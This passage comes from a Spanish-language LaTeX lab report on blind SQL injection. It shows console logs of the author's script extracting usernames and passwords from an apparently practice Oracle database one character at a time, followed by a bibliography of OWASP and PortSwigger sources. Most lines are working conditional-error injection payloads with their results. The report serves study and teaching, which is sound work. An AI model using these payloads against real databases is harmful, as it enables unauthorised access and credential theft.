 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 2, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 3 de 5 para la fila 3...
 OK Carácter 3: 'e' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 3, 1) = 'e') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 4 de 5 para la fila 3...
 OK Carácter 4: 'r' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 4, 1) = 'r') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 5 de 5 para la fila 3...
 OK Carácter 5: '2' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 5, 1) = '2') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 [+] Valor extraído para la fila 3: user2
 
 [+] Extrayendo datos para la fila 4...
 
 [+] Determinando la longitud de 'username' para la fila 4...
 FAIL Probando longitud 1 para la fila 4...
 FAIL Probando longitud 2 para la fila 4...
 FAIL Probando longitud 3 para la fila 4...
 FAIL Probando longitud 4 para la fila 4...
 FAIL Probando longitud 5 para la fila 4...
 FAIL Probando longitud 6 para la fila 4...
 FAIL Probando longitud 7 para la fila 4...
 FAIL Probando longitud 8 para la fila 4...
 FAIL Probando longitud 9 para la fila 4...
 FAIL Probando longitud 10 para la fila 4...
 FAIL Probando longitud 11 para la fila 4...
 FAIL Probando longitud 12 para la fila 4...
 FAIL Probando longitud 13 para la fila 4...
 FAIL Probando longitud 14 para la fila 4...
 FAIL Probando longitud 15 para la fila 4...
 FAIL Probando longitud 16 para la fila 4...
 FAIL Probando longitud 17 para la fila 4...
 FAIL Probando longitud 18 para la fila 4...
 FAIL Probando longitud 19 para la fila 4...
 FAIL Probando longitud 20 para la fila 4...
 FAIL Probando longitud 21 para la fila 4...
 FAIL Probando longitud 22 para la fila 4...
 FAIL Probando longitud 23 para la fila 4...
 FAIL Probando longitud 24 para la fila 4...
 FAIL Probando longitud 25 para la fila 4...
 FAIL Probando longitud 26 para la fila 4...
 FAIL Probando longitud 27 para la fila 4...
 FAIL Probando longitud 28 para la fila 4...
 FAIL Probando longitud 29 para la fila 4...
 FAIL Probando longitud 30 para la fila 4...
 FAIL Probando longitud 31 para la fila 4...
 FAIL Probando longitud 32 para la fila 4...
 FAIL Probando longitud 33 para la fila 4...
 FAIL Probando longitud 34 para la fila 4...
 FAIL Probando longitud 35 para la fila 4...
 FAIL Probando longitud 36 para la fila 4...
 FAIL Probando longitud 37 para la fila 4...
 FAIL Probando longitud 38 para la fila 4...
 FAIL Probando longitud 39 para la fila 4...
 FAIL Probando longitud 40 para la fila 4...
 [!] No se pudo determinar la longitud de 'username' en la fila 4.
 [!] No se encontró longitud para la fila 4. Asumiendo fin de datos.
 
 [+] Resultados completos:
 Usuario 1: admin
 Usuario 2: user1
 Usuario 3: user2
 
 [+] Tiempo de ejecución: 89.42 segundos
\end{lstlisting}

\subsection{Ejecución completa del script dumpeando contraseñas}
A continuación se muestra la ejecución completa del script para extraer las contraseñas de la base de datos.

\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
    ___  ___         __    ___            __            
   / _ )/ (_)__  ___/ /   / _ )___  ___  / /__ ___ ____ 
  / _  / / / _ \/ _  /   / _  / _ \/ _ \/ / -_) _ `/ _ \
 /____/_/_/_//_/\_,_/   /____/\___/\___/_/\__/\_,_/_//_/
    ________    __   ____       ____        _      __      
   / __/ __ \  / /  /  _/      / __/_______(_)__  / /_     
  _\ \/ /_/ / / /___/ /      _\ \/ __/ __/ / _ \/ __/     
 /___/\___\_\/____/___/     /___/\__/_/ /_/ .__/\__/      
                                         /_/             
 Selecciona qué deseas extraer de la BD:
 1. Usuarios
 2. Contraseñas
 Opción (1 o 2): 2
 
 [+] Extrayendo datos para la fila 1...
 
 [+] Determinando la longitud de 'password' para la fila 1...
 FAIL Probando longitud 1 para la fila 1...
 FAIL Probando longitud 2 para la fila 1...
 FAIL Probando longitud 3 para la fila 1...
 FAIL Probando longitud 4 para la fila 1...
 FAIL Probando longitud 5 para la fila 1...
 FAIL Probando longitud 6 para la fila 1...
 FAIL Probando longitud 7 para la fila 1...
 FAIL Probando longitud 8 para la fila 1...
 FAIL Probando longitud 9 para la fila 1...
 FAIL Probando longitud 10 para la fila 1...
 OK Probando longitud 11 para la fila 1...
 [*] La longitud de 'password' en la fila 1 es: 11
 
 [+] Extrayendo el valor de 'password' para la fila 1...
 
 [+] Extrayendo carácter 1 de 11 para la fila 1...
 OK Carácter 1: 'p' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1) = 'p') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 2 de 11 para la fila 1...
 OK Carácter 2: 'a' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 2, 1) = 'a') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 3 de 11 para la fila 1...
 OK Carácter 3: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 3, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 4 de 11 para la fila 1...
 OK Carácter 4: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 4, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 5 de 11 para la fila 1...
 OK Carácter 5: 'w' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 5, 1) = 'w') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 6 de 11 para la fila 1...
 OK Carácter 6: 'o' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 6, 1) = 'o') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 7 de 11 para la fila 1...
 OK Carácter 7: 'r' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 7, 1) = 'r') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 8 de 11 para la fila 1...
 OK Carácter 8: 'd' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 8, 1) = 'd') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 9 de 11 para la fila 1...
 OK Carácter 9: '1' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 9, 1) = '1') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 10 de 11 para la fila 1...
 OK Carácter 10: '2' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 10, 1) = '2') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 11 de 11 para la fila 1...
 OK Carácter 11: '3' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 11, 1) = '3') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 [+] Valor extraído para la fila 1: password123
 
 [+] Extrayendo datos para la fila 2...
 
 [+] Determinando la longitud de 'password' para la fila 2...
 FAIL Probando longitud 1 para la fila 2...
 FAIL Probando longitud 2 para la fila 2...
 FAIL Probando longitud 3 para la fila 2...
 FAIL Probando longitud 4 para la fila 2...
 FAIL Probando longitud 5 para la fila 2...
 FAIL Probando longitud 6 para la fila 2...
 FAIL Probando longitud 7 para la fila 2...
 FAIL Probando longitud 8 para la fila 2...
 OK Probando longitud 9 para la fila 2...
 [*] La longitud de 'password' en la fila 2 es: 9
 
 [+] Extrayendo el valor de 'password' para la fila 2...
 
 [+] Extrayendo carácter 1 de 9 para la fila 2...
 OK Carácter 1: 'p' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1) = 'p') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 2 de 9 para la fila 2...
 OK Carácter 2: 'a' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 2, 1) = 'a') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 3 de 9 para la fila 2...
 OK Carácter 3: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 3, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 4 de 9 para la fila 2...
 OK Carácter 4: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 4, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 5 de 9 para la fila 2...
 OK Carácter 5: 'w' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 5, 1) = 'w') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 6 de 9 para la fila 2...
 OK Carácter 6: 'o' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 6, 1) = 'o') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 7 de 9 para la fila 2...
 OK Carácter 7: 'r' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 7, 1) = 'r') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 8 de 9 para la fila 2...
 OK Carácter 8: 'd' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 8, 1) = 'd') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 9 de 9 para la fila 2...
 OK Carácter 9: '1' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 9, 1) = '1') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 [+] Valor extraído para la fila 2: password1
 
 [+] Extrayendo datos para la fila 3...
 
 [+] Determinando la longitud de 'password' para la fila 3...
 FAIL Probando longitud 1 para la fila 3...
 FAIL Probando longitud 2 para la fila 3...
 FAIL Probando longitud 3 para la fila 3...
 FAIL Probando longitud 4 para la fila 3...
 FAIL Probando longitud 5 para la fila 3...
 FAIL Probando longitud 6 para la fila 3...
 FAIL Probando longitud 7 para la fila 3...
 FAIL Probando longitud 8 para la fila 3...
 OK Probando longitud 9 para la fila 3...
 [*] La longitud de 'password' en la fila 3 es: 9
 
 [+] Extrayendo el valor de 'password' para la fila 3...
 
 [+] Extrayendo carácter 1 de 9 para la fila 3...
 OK Carácter 1: 'p' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1) = 'p') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 2 de 9 para la fila 3...
 OK Carácter 2: 'a' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 2, 1) = 'a') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 3 de 9 para la fila 3...
 OK Carácter 3: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 3, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 4 de 9 para la fila 3...
 OK Carácter 4: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 4, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 5 de 9 para la fila 3...
 OK Carácter 5: 'w' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 5, 1) = 'w') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 6 de 9 para la fila 3...
 OK Carácter 6: 'o' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 6, 1) = 'o') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 7 de 9 para la fila 3...
 OK Carácter 7: 'r' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 7, 1) = 'r') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 8 de 9 para la fila 3...
 OK Carácter 8: 'd' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 8, 1) = 'd') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 9 de 9 para la fila 3...
 OK Carácter 9: '2' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 9, 1) = '2') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 [+] Valor extraído para la fila 3: password2
 
 [+] Extrayendo datos para la fila 4...
 
 [+] Determinando la longitud de 'password' para la fila 4...
 FAIL Probando longitud 1 para la fila 4...
 FAIL Probando longitud 2 para la fila 4...
 FAIL Probando longitud 3 para la fila 4...
 FAIL Probando longitud 4 para la fila 4...
 FAIL Probando longitud 5 para la fila 4...
 FAIL Probando longitud 6 para la fila 4...
 FAIL Probando longitud 7 para la fila 4...
 FAIL Probando longitud 8 para la fila 4...
 FAIL Probando longitud 9 para la fila 4...
 FAIL Probando longitud 10 para la fila 4...
 FAIL Probando longitud 11 para la fila 4...
 FAIL Probando longitud 12 para la fila 4...
 FAIL Probando longitud 13 para la fila 4...
 FAIL Probando longitud 14 para la fila 4...
 FAIL Probando longitud 15 para la fila 4...
 FAIL Probando longitud 16 para la fila 4...
 FAIL Probando longitud 17 para la fila 4...
 FAIL Probando longitud 18 para la fila 4...
 FAIL Probando longitud 19 para la fila 4...
 FAIL Probando longitud 20 para la fila 4...
 FAIL Probando longitud 21 para la fila 4...
 FAIL Probando longitud 22 para la fila 4...
 FAIL Probando longitud 23 para la fila 4...
 FAIL Probando longitud 24 para la fila 4...
 FAIL Probando longitud 25 para la fila 4...
 FAIL Probando longitud 26 para la fila 4...
 FAIL Probando longitud 27 para la fila 4...
 FAIL Probando longitud 28 para la fila 4...
 FAIL Probando longitud 29 para la fila 4...
 FAIL Probando longitud 30 para la fila 4...
 FAIL Probando longitud 31 para la fila 4...
 FAIL Probando longitud 32 para la fila 4...
 FAIL Probando longitud 33 para la fila 4...
 FAIL Probando longitud 34 para la fila 4...
 FAIL Probando longitud 35 para la fila 4...
 FAIL Probando longitud 36 para la fila 4...
 FAIL Probando longitud 37 para la fila 4...
 FAIL Probando longitud 38 para la fila 4...
 FAIL Probando longitud 39 para la fila 4...
 FAIL Probando longitud 40 para la fila 4...
 [!] No se pudo determinar la longitud de 'password' en la fila 4.
 [!] No se encontró longitud para la fila 4. Asumiendo fin de datos.
 
 [+] Resultados completos:
 Contraseña 1: password123
 Contraseña 2: password1
 Contraseña 3: password2
 
 [+] Tiempo de ejecución: 190.46 segundos 
\end{lstlisting}



%Bibliografia (PortSwigger, OWASP, etc)
\section{Bibliografía}
\begin{small} % Cambia a \footnotesize si deseas un texto aún más pequeño
\begin{itemize}
    \item PortSwigger. (2021). SQL Injection. Recuperado de: \url{https://portswigger.net/web-security/sql-injection}
    \item OWASP. (2021). SQL Injection. Recuperado de: \url{https://owasp.org/www-community/attacks/SQL_Injection}
    \item OWASP. (2021). Blind SQL Injection. Recuperado de: \url{https://owasp.org/www-community/attacks/Blind_SQL_Injection}
    \item OWASP. (2021). Time-Based Blind SQL Injection. Recuperado de: \url{https://owasp.org/www-community/attacks/Time-Based_Blind_SQL_Injection}
    \item OWASP. (2021). SQL Injection Prevention Cheat Sheet.Recuperado de: \url{https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html}
    \item Oracle. (2021). Oracle Database SQL Language Reference. Recuperado de: \url{https://docs.oracle.com/en/database/oracle/oracle-database/19/sqlrf/index.html}
    \item PostgreSQL. (2021). PostgreSQL Documentation. Recuperado de: \url{https://www.postgresql.org/docs/}
    \item W3Schools. (2021). SQL Tutorial. Recuperado de: \url{https://www.w3schools.com/sql/}
    \item Burp Suite. (2021). Burp Suite Documentation. Recuperado de: \url{https://portswigger.net/burp/documentation}
    \item Python. (2021). Python Documentation. Recuperado de: \url{https://docs.python.org/3/}
    \item Stack Overflow. (2021). Recuperado de: \url{https://stackoverflow.com/}
\end{itemize}
\end{small}



\end{document}
